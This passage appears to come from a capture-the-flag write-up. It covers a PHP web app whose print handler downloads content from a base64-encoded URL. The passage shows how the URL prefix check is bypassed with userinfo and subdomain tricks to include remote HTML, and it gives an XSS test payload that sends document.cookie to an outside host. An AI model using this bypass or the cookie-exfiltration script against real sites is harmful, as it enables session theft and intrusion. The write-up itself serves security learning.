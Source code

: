 ```php
```

Only URLs which match some hardcoded host are shown (and therefore visited). So the bot never got to see our submitted URLs. Let's see how we can bypass this check.

But first for something different ...

### Include from arbitrary URL

There is this rather strange handling of the `page=print` case in the `index.php`:


```php
<?php
[...]
    case 'print':
        $url   = base64_decode($_REQUEST['url']);
        $title = '';
        if(begins_with($url, $config['url'])) {
            $content = getContentFromUrl($url);
        }

        if(isset($_REQUEST['load_template']) && ($_REQUEST['load_template'] == '1' || $_REQUEST['load_template'] == true)) {
            $content = only_body($content);
        }
    break;
[...]
?>
```

This code will download and include anything that comes from a url provided via (base64 encoded) get parameter. Unfortunately there is a check that requires the provided URL to begin with a certain string. By playing around a little bit, we can deduce that the provided URL must begin with the webapp's host/ip, therefore `http://10.13.37.13`.

Interestingly here we can see that the URL doesn't end in a `/`, or someting like that, so we can bypass the check using either of two different methods:

```
http://10.13.37.13@example.com/
http://10.13.37.13.example.com/
```

Both start with the correct string, but point to totally different domains.
That way we can get the server to include arbitrary HTML content from a remote location. This starts to be interesting. :)

### First XSS tests

So we uploaded a quick test file to a webserver of our own:

```html
<script>
document.write("<img src=\"http://f0rki.at/xss/" + document.cookie + "\" />");
</script>
```
